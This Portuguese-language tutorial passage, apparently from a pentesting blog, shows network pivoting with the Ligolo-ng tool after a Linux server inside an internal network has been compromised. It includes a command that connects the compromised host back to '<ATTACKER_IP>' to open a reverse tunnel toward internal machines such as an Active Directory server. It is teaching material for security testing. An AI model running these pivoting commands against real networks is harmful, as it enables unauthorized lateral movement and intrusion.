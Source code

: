 ```
172.16.20.1 - Actve Directory

172.16.20.2 - web-server windows IIS

172.16.20.3 - é o próprio server linux em que estamos
```

#### Agora temos certeza de que o server linux comprometido pode acessar diretamente outros hosts na rede interna, vamos para a pivotagem.


## 2 - Pivoting (pivotando ou pivotagem)

Se você pesquisar por "network pivoting" vai achar varias tools que possibilitam abrir tuneis atravez de redes comprometidas. Algumas aproveitam de conexões ssh para fazer ```port forwarding```, outras usam ```socks proxy``` entre um server e um client, e com essas tools é realmente possivel fazer pivot, mas aqui vamos ver uma tecnica diferente que é tão eficaz quanto as outras.

Nesse exemplos usaremos a tool Ligolo-ng.

- https://github.com/nicocha30/ligolo-ng
"Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS)."

O que o ligolo-ng faz de diferente é usar "userland network stack" e cria uma interface de rede virtual que é usada entre o client e server agent. O Ligolo-ng utiliza a interface TUN para redirecionar pacotes de rede entre o client e o server, criando um túnel virtual entre as máquinas. Nesse caso o client é usado na maquina alvo e o server é "startado" na maquina do atacante. (ref no fim da pág)


#### ligolo setup

Seguindo o quickstart na documentação é bem simples.
- https://docs.ligolo.ng/Quickstart/

Em releases https://github.com/nicocha30/ligolo-ng/releases faça download dos binarios client e server, depois descompacte:


{% include figure.liquid loading="eager" path="assets/img/clienteserver.png" width="500" height="500" class="img-fluid rounded z-depth-1" zoomable=true %}


Com os binarios descompactados temos o ```client``` que precisa esta na maquina alvo e o ```proxy``` que é o server. 


(Para enviar o client para a maquina alvo você pode um server http python ou, como temos credenciais ssh, podemos usar scp. Essa parte fica por conta do cenario que o pivot será feito.)


#### 1 - inicie o server na maquina do atacante

```$ sudo ./proxy -serlfcert```

O server precisa ser iniciado com sudo porque o ligolo criar interface de rede e rotas na maquina.

{% include figure.liquid loading="eager" path="assets/img/startserver.png" width="500" height="500" class="img-fluid rounded z-depth-1" zoomable=true %}


#### 2 - inicie o client na maquina comprometida

```$ ./client -connect <ATTACKER_IP>:11601 --accept-fingerprint <SERVER_FINGERPRINT>```

Usando o ip da maquina do atacante e a porta padrão que o server usa ao inicar, junto com o fingerprint do server pra usar o certificado TLS self-signed que o server gera.


```